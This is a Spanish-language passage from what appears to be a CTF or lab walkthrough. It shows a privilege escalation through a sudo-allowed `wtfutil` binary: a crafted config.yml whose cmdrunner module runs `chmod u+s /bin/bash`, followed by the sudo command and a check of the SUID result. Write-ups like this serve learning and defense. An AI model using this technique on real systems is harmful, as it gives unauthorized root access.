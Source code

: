 Vemos que podemos ejecutar el binario `wtfutil` como el usuario `root`, por lo que podremos hacer lo siguiente.

Sabemos que el binario puede cargar archivos de configuracion en `.yml` por lo que si podemos ejecutarlo como `root` podremos crear un `config.yml` en el que ejecute un comando que nosotros queramos, vamos a buscar un ejemplo de `.yml` a ver que encontramos.

URL = [Ejemplo de config.yml GitHub](https://github.com/wtfutil/wtf/blob/master/_sample_configs/sample_config.yml)

En ese ejemplo podremos ver como ejecuta comandos desde la configuracion, por lo que nosotros vamos a crear algo asi.

```shell
cd /tmp
nano config.yml

#Dentro del nano
wtf:
  grid:
    columns: [50]
    rows: [3]
  mods:
    root_shell:
      type: cmdrunner
      cmd: "/bin/chmod"
      args: ["u+s", "/bin/bash"]
      enabled: true
      position:
        top: 0
        left: 0
        height: 1
        width: 1
      refreshInterval: 300
```

Lo guardamos y ejecutamos el binario `wtfutil` para que cargue dicha configuracion de la siguiente forma:

```shell
sudo /bin/wtfutil --config=/tmp/config.yml
```

Una vez que lo ejecutemos veremos que nos aparece una interfaz grafica en terminal de nuestro comando ejecutado y del codigo con numero `1` que significa que se ejecuto de forma exitosa, por lo que haremos `Ctrl+C` y probaremos a listar la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Veremos que se ha ejecutado de forma correcta por lo que podremos ser `root` de esta forma.
